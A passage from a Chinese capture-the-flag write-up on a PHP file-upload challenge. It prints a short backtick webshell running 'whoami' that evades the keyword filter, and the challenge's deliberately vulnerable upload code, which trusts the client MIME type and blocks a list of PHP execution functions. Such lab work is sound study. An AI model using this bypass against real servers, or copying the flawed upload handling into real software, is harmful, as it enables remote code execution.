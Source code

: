 测试，会检测`_GET`、`_POST`。

可抓包后修改直接上传php文件。

#### 反引号

反引号达到命令执行的效果。

```php
<?php
$_=`whoami`;
echo $_;
// <?= `whoami`?>
```

把源码拔下来

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-24 19:34:52
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-30 00:11:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $str = file_get_contents($_FILES["file"]["tmp_name"]);
            if(check($str)===0){
                move_uploaded_file($_FILES["file"]["tmp_name"], './upload/'.$_FILES["file"]["name"]);
                $ret = array("code"=>0,"msg"=>$_FILES["file"]["name"]);
            }
            
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}

function check($str){
    return preg_match('/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i', $str);
}

echo json_encode($ret);
```
